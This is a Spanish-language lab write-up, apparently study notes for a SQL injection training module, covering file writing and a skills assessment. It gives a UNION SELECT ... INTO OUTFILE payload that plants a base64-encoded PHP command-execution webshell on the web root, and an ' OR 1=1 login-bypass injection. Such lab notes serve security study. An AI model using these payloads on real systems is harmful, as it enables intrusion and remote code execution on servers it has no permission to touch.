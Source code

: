 ### Writing Files

#### Preguntas

**Find the flag by using a webshell.**

Primero subimos la webshell en Base64.

```
' UNION SELECT "", FROM_BASE64('PD9waHAgc3lzdGVtKCRfR0VUWzBdKTsgPz4='), "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

<figure><img src="../.gitbook/assets/image (1704).png" alt=""><figcaption></figcaption></figure>

Buscamos en el navegador.

<figure><img src="../.gitbook/assets/image (1705).png" alt=""><figcaption></figcaption></figure>

Buscamos entonces dónde se encuentra la flag.

<figure><img src="../.gitbook/assets/image (1706).png" alt=""><figcaption></figcaption></figure>

Mostramos contenido.

<figure><img src="../.gitbook/assets/image (1707).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

Nos encontramos un panel de login y lo bypasseamos con una inyección básica.

```
' OR 1=1 LIMIT 1-- -'
```

Estamos dentro.

<figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>
